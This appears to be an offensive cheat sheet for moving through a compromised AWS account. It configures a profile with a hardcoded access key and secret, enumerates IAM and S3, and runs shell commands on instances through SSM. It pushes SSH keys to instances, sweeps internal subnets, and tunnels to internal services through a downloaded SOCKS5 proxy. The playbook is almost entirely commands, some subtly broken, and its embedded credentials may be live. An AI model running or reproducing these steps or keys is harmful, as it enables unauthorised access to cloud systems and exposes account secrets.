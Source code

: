 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Enumerate IAM permissions

```
python3 enumerate-iam.py --access-key AKIAIRYBX5NHQLRB52WQ --secret-key  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
```
# Upon adding the crednetail.next step is to enumerate
```
aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
# Port Forwarding if you have found any susceptible Services like Tomcat.Jboss and Weblogic
```
ssh -i private.key ubuntu@54.211.12.132 -L 8080:127.0.0.1:8080 -N -f

wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

The following variable should be changed
define SERVER_PORT 7777
#define USERNAME "NLK"
#define PASSWORD "123456@*&<>"

On your Attacker Machine,proxychains setting must be amend like information below

socks5 54.211.12.132 7777 NLK 123456@*&<>
proxychains firefox 127.0.0.1:8080
```

